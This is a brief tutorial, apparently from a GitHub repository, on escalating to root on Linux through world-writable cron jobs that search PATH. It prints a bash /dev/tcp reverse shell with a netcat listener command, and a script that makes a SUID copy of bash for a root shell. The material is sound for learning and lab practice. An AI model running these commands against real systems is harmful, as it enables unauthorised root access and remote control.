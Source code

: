   Example of cron jobs scheduled to run **as root** every minute:
  
  <img src="../imgs/cronjobseverymin.png" alt="cronjobseverymin">
   
  - `compress.sh` script will be searched only in `/usr/local/bin` path, because it's explicit. 
  - `overwrite.sh` script will be searched in all paths specified in `PATH` variable, so: `/usr/local/sbin`, `/usr/local/bin`, `/usr/sbin`, `/usr/bin`, `/sbin` and `/bin`. If the shell (`sh` in this case) finds the script, it executes it.

  - If one of these **cron jobs are world-writable** and **you're not root**, it's possible to modify and exploit them. For example we could modify `overwrite.sh` with a reverse shell like this this one: 
  ```
  #!/bin/bash
  bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
  ```
  - Then `nc -lvnp <PORT>` on your own Terminal to start a NetCat reverse shell.<br><br>
  - If one of these **cron jobs are world-writable and searched in `/home/user` path** and **you're not root**, it's possible to modify and exploit them to gain a root shell in this way:
  ```
  #!/bin/bash
  mkdir /tmpdir
  cp /bin/bash /tmpdir/rootbash
  chmod +xs /tmpdir/rootbash
  ```
  - This script will copy the default `/bin/bash` shell to a temporary directory and will give it execution and suid permissions (it assumes the privileges of the user who owns the file, **root** in this case). In this way, we can run a root shell, so we escalated privileges!
    - If you type `whoami`, you should read _root_.
    - You can choose any shell you want (`/bin/bash`, `/bin/sh`, `/bin/zsh`).

    ### Local test
    - Create `script.sh` in your home folder and paste the previous bash code,
    - Run it with `sudo script.sh`. It should create `/tmpdir/rootbash` as said before.
    - Run the shell with `/tmpdir/rootbash`. It should open a shell as root. 
    - Check your role with `whoami`.
